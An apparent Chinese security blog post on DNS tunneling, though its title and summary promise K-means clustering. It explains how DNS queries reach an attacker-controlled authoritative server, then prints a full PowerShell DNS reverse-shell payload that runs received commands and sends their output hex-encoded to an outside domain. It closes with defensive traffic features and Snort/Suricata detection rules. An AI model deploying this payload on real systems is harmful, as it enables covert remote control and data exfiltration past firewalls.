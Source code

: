Title: 流量日志审计中常用的聚类算法（K-means）
Date: 2018-07-04 20:20
Modified: 2018-07-04 20:20
Category: 安全
Tags: K-means
Slug: P6
Authors: nJcx
Summary: 流量日志审计中常用的聚类算法（K-means）~



#### DNS介绍

![icmp](../images/tcpip.gif)

我们先简单介绍一下 DNS协议，DNS协议是一个应用层协议，用来将域名转换为IP地址（也可以将IP地址转换为相应的域名地址），类似一个分布式数据库，数据通过udp传输,IP报头中的协议字段值为17.

DNS协议报文格式

![dns](../images/dns-protocol-format.png)

通过wireshark 抓到的包：

![dns](../images/dnswireshark.png)

由于关于dns报文介绍太长，参考下面url 

[DNS协议详解及报文格式分析](https://www.cnblogs.com/davidwang456/articles/10660051.html)


![dns](../images/dnsq.jpeg)

关于DNS请求的方式如图，
具体可描述如下： 

	1. 主机先向本地域名服务器进行递归查询 
	
	2. 本地域名服务器采用迭代查询，向一个根域名服务器进行查询 
	
	3. 根域名服务器告诉本地域名服务器，下一次应该查询的顶级域名服务器的IP地址 
	
	4. 本地域名服务器向顶级域名服务器进行查询 
	
	5. 顶级域名服务器告诉本地域名服务器，下一步查询权限服务器的IP地址 
	 
	6. 本地域名服务器向权威服务器进行查询 
	
	7. 权限服务器告诉本地域名服务器所查询的主机的IP地址 
	
	8. 本地域名服务器最后把查询结果告诉主机 


![dns](../images/dnstun.jpeg)


如果在企业内网，那么黑客的攻击机器，就是所谓的权威服务器

	第一步: 受控机向内部dns服务器发送一个查询NKNFjklKLuJNVIUM.ml.org的请求
	
	第二步：内部dns服务器通过防火墙向根dns服务器发出查询请求
	
	第三步：经过大量迭代后，DNS请求到达NKNFjklKLuJNVIUM.ml.org的权威DNS服务器（黑客所控制）
	
	第四步：受控机请求查询的响应通过防火墙返回到内部DNS服务器
	
	第五步：内部DNS服务器将响应结果返回给受控机


上面的流程展示了一个受控机在连接外部网络时dns解析的一个过程。由于防火墙并没有对dns协议做任何处理，所以我们可以通过这种方式来穿透防火墙。

这里很多人会有一个疑问，关于dns 请求查询NKNFjklKLuJNVIUMvKL.ml.org 是怎么到达黑客所控制的权威DNS服务器的？

请求一个域名，比如NKNFjklKLuJNVIUMvKL.ml.org ,本地DNS服务器上没有 NKNFjklKLuJNVIUMvKL.ml.org，那么它将向root，也就是根域名服务器请求，看看根知道不, root一看是.org的域名，就交 给.org域名服务器进行解析，.org的域名服务器一看是.ml.org那么就会去找.ml.org的域名服务器 (ns1.myhostadmin.net),看看它有没有这条记录，.ml.org的域名服务器上一看是.ml.org，如果它有这 条A记录，那么就会返回NKNFjklKLuJNVIUMvKL.ml.org 的记录。

但是，如果没有，你可以再在ml.org的域名服务器上设定一个NS 类型的记录，如：ml.org NS 111.222.333.444(通常这里不让设置为地址，你可以先在DNS服务器上添加一条A记录，如ns.ml.org A 111.222.333.444，再添加NS记录：ml.org NS ns.xxx.org)，这里指定一个公网服务器，就是黑客所控制的权威DNS服务器。


#### 测试


我们测试一下使用dns反弹shell，用于测试的域名： test.njcx.bid

该域名的dns服务器位于  ns1.njcx.bid（公网ip：111.222.333.444）


受控机Windows7 ：  172.16.42.134

控制机 CentOS7：  111.222.333.444

我们用到的工具
[DNS-Shell](https://github.com/sensepost/DNS-Shell)，我们在 CentOS7 上面执行  python DNS-shell.py -l -r test.njcx.bid ，接收由受控机过来的shell，执行后会生成一个 powershell的payload,保存为 ps1 Windows执行即可收到shell

```
$url = "test.njcx.bid";
function execDNS($cmd) {
$c = iex $cmd 2>&1 | Out-String;
$u = [system.Text.Encoding]::UTF8.GetBytes($c);
$string = [System.BitConverter]::ToString($u);
$string = $string -replace '-','';
$len = $string.Length;
$split = 50;
$repeat=[Math]::Floor($len/$split);
$remainder=$len%$split;
if($remainder){ $repeatr = $repeat+1};
$rnd = Get-Random;$ur = $rnd.toString()+".CMDC"+$repeatr.ToString()+"."+$url;
$q = nslookup -querytype=A $ur;
for($i=0;$i-lt$repeat;$i++){
    $str = $string.Substring($i*$Split,$Split);
    $rnd = Get-Random;$ur1 = $rnd.toString()+".CMD"+$i.ToString()+"."+$str+"."+$url;
    $q = nslookup -querytype=A $ur1;
};
if($remainder){
    $str = $string.Substring($len-$remainder);
    $i = $i +1
    $rnd = Get-Random;$ur2 = $rnd.toString()+".CMD"+$i.ToString()+"."+$str+"."+$url;
    $q = nslookup -querytype=A $ur2;
};
$rnd=Get-Random;$s=$rnd.ToString()+".END."+$url;$q = nslookup -querytype=A $s;
};
while (1){
   $c = Get-Random;
   Start-Sleep -s 3
   $u=$c.ToString()+"."+$url;$txt = nslookup -querytype=TXT $u | Out-String
   $txt = $txt.split("`n") | %{$_.split('"')[1]} | Out-String
   if ($txt -match 'NoCMD'){continue}
   elseif ($txt -match 'exit'){Exit}
   else{execDNS($txt)}
}   

```

shell 如下，

![dnsshell](../images/dnsshell.png)

我在被控机上抓包，如图，可以看出受控机器一直TXT请求 CentOS 控制机

![dnsshell](../images/WechatIMG25.jpeg)

![dnsshell](../images/WechatIMG26.jpeg)

可以看出我们的payload是 放到TXT字段里面，由CentOS 控制机响应给客户端的

![dnsshell](../images/WechatIMG21.jpeg)


然后，数据都分段放到子域名里面，分多次，再次用请求的方式，发送到我们的控制机器上了

![dnsshell](../images/WechatIMG23.jpeg)

#### 检测


我们可以看出一些特征 ：
	
	1， 请求的Type一般都是TXT（为了返回的时候能够加入更多的信息）。
	2， payload部分一般都会编码（可能为base64、2进制或16进制）后放到子域名里面，而且多变，不一致
	3， DNS发生频率很高，短时间为了发送大量数据，会产生大量请求
	
比如，DNS  TXT请求频率过高，就报警，例子如下

```
alert udp any any -> any 53 (msg:"High TXT requests - Potential DNS Tunneling"; content:"|01 00|"; offset:2; within :4; content:"|00 00 10 00 01|"; offset:12; within:255; threshold: type threshold, track by_src, count 10, seconds 5; sid: 5700002; rev: 1;)
```	
	
下面，收集了很多知名DNS利用工具的检测规则。

```javascript
alert udp $EXTERNAL_NET 53 -> $HOME_NET any (msg:"APP-DETECT iodine dns tunneling handshake server ACK"; flow:to_client; byte_test:1,&,0x80,2; content:"|00 01 00 01 00|"; depth:5; offset:4; content:"v"; within:1; distance:4; content:"VACK"; within:200; fast_pattern; metadata:service dns; reference:url,code.kryo.se/iodine/README.html; classtype:policy-violation; sid:27046; rev:3;)

alert udp $HOME_NET any -> any 53 (msg:"APP-DETECT OzymanDNS dns tunneling up attempt"; flow:to_server,no_stream; content:"|01 00 00 01 00 00 00 00 00 00|"; depth:10; offset:2; content:"-0"; distance:6; content:"id-"; within:3; distance:1; fast_pattern; content:"up"; within:8; detection_filter:track by_src, count 18, seconds 1; metadata:impact_flag red, service dns; reference:url,dankaminsky.com/2004/07/29/51/; classtype:policy-violation; sid:27540; rev:4;)

alert udp $HOME_NET any -> any 53 (msg:"APP-DETECT OzymanDNS dns tunneling down attempt"; flow:to_server,no_stream; content:"|01 00 00 01 00 00 00 00 00 00|"; depth:10; offset:2; content:"id-"; distance:6; fast_pattern; content:"down"; within:10; distance:2; detection_filter:track by_dst, count 8, seconds 1; metadata:impact_flag red, service dns; reference:url,dankaminsky.com/2004/07/29/51/; classtype:policy-violation; sid:27541; rev:4;)

alert udp $HOME_NET any -> any 53 (msg:"APP-DETECT Your-Freedom DNS tunneling query attempt"; flow:to_server; byte_test:1,!&,0xF8,2; content:"|03|s"; nocase; content:"|03|1yf|02|de|00|"; distance:2; nocase; metadata:service dns; reference:url,your-freedom.net; classtype:misc-activity; sid:34496; rev:1;)

alert udp $EXTERNAL_NET 53 -> any any (msg:"APP-DETECT Your-Freedom DNS tunneling query response attempt"; flow:to_client; byte_test:1,!&,0x01,2; content:"|03|s"; nocase; content:"|03|1yf|02|de|00|"; distance:2; nocase; metadata:service dns; reference:url,your-freedom.net; classtype:misc-activity; sid:34497; rev:1;)

alert udp $HOME_NET any -> any 53 (msg:"INDICATOR-OBFUSCATION DNS tunneling attempt"; flow:to_server; byte_test:1,!&,0xF8,2; content:"|00 01 00 00 00 00 00 00 1A|"; depth:9; offset:4; content:"|1A|"; within:1; distance:26; content:"|02|"; within:2; distance:26; metadata:service dns; classtype:policy-violation; sid:25983; rev:2;)

alert udp $EXTERNAL_NET 53 -> $HOME_NET any (msg:"INDICATOR-OBFUSCATION DNS tunneling attempt"; flow:to_client,no_stream; content:"|00 01 00 01 00 00 00 00|"; depth:8; offset:4; content:"|00 07 06|(){}[]"; fast_pattern; content:"|00 0A 00 01|"; within:4; distance:-17; detection_filter:track by_src, count 25, seconds 1; metadata:service dns; classtype:policy-violation; sid:37891; rev:2;)

alert udp $HOME_NET any -> $EXTERNAL_NET 53 (msg:"INDICATOR-OBFUSCATION DNS tunneling attempt"; flow:to_server,no_stream; content:"|00 01 00 00 00 00 00 00|"; depth:8; offset:4; isdataat:80,relative; content:"|00 0A 00 01|"; within:15; distance:80; fast_pattern; detection_filter:track by_src, count 25, seconds 1; metadata:service dns; classtype:policy-violation; sid:37892; rev:2;)

sid:2100208 (Tunneling IP over DNS with NSTX)
alert udp any any -> any 53 (msg:"GPL POLICY MISC Tunneling IP over DNS with NSTX"; byte_test: 1,>,32,12; content: "|00 10 00 01|"; offset: 12; rawbytes; threshold: type threshold, track by_src, count 50, seconds 60; reference:url,nstx.dereference.de/nstx/; reference:url,slashdot.org/articles/00/09/10/2230242.shtml; classtype:policy-violation; sid:2100208; rev:3; metadata:created_at 2010_09_23, updated_at 2010_09_23;)

sid:2024504 (ET TROJAN ISMAgent)
alert udp $HOME_NET any -> any 53 (msg:"ET TROJAN ISMAgent DNS Tunneling (microsoft-publisher . com)"; content:"|01 00 00 01 00 00 00 00 00 00|"; depth:10; offset:2; content:"|13|microsoft-publisher|03|com|00|"; nocase; distance:0; fast_pattern; threshold:type limit, track by_src, count 1, seconds 60; metadata: former_category TROJAN; reference:md5,a70a08a1e17b820c7dc8ee1247d6bfa2; reference:url,researchcenter.paloaltonetworks.com/2017/07/unit42-oilrig-uses-ismdoor-variant-possibly-linked-greenbug-threat-group/; classtype:trojan-activity; sid:2024504; rev:3; metadata:affected_product Windows_XP_Vista_7_8_10_Server_32_64_Bit, attack_target Client_Endpoint, deployment Perimeter, signature_severity Major, created_at 2017_07_28, malware_family Ismdoor, performance_impact Moderate, updated_at 2017_07_31;)

sid:2025072 (ET TROJAN Patchwork)
alert dns $HOME_NET any -> any any (msg:"ET TROJAN Patchwork DNS Tunneling (nsn1.winodwsupdates .me)"; dns_query; content:".nsn1.winodwsupdates.me"; isdataat:!1,relative; metadata: former_category TROJAN; reference:url,docs.google.com/document/d/1oYX3uN6KxIX_StzTH0s0yFNNoHDnV8VgmVqU5WoeErc; classtype:trojan-activity; sid:2025072; rev:2; metadata:affected_product Windows_XP_Vista_7_8_10_Server_32_64_Bit, attack_target Client_Endpoint, deployment Perimeter, signature_severity Major, created_at 2017_11_27, malware_family Patchwork, performance_impact Low, updated_at 2017_11_27;)

sid:2025894 (ET TROJAN OilRig)
alert dns $HOME_NET any -> any 53 (msg:"ET TROJAN OilRig QUADAGENT DNS Tunneling"; content:"|01|"; offset:2; depth:1; content:"|00 01 00 00 00 00 00|"; distance:1; within:7; content:"|04|mail|06|"; distance:0; nocase; pcre:"/^\d{6}/Ri"; content:"|07|cpuproc|03|com|00|"; fast_pattern; distance:0; within:13; nocase; threshold: type limit, count 1, seconds 60, track by_src; metadata: former_category TROJAN; reference:md5,d51c2ffce844d42bab2f2c3131e3dbd4; reference:url,researchcenter.paloaltonetworks.com/2018/07/unit42-oilrig-targets-technology-service-provider-government-agency-quadagent/; classtype:trojan-activity; sid:2025894; rev:2; metadata:affected_product Windows_XP_Vista_7_8_10_Server_32_64_Bit, attack_target Client_Endpoint, deployment Perimeter, signature_severity Major, created_at 2018_07_25, malware_family QuadAgent, performance_impact Low, updated_at 2018_07_25;)

```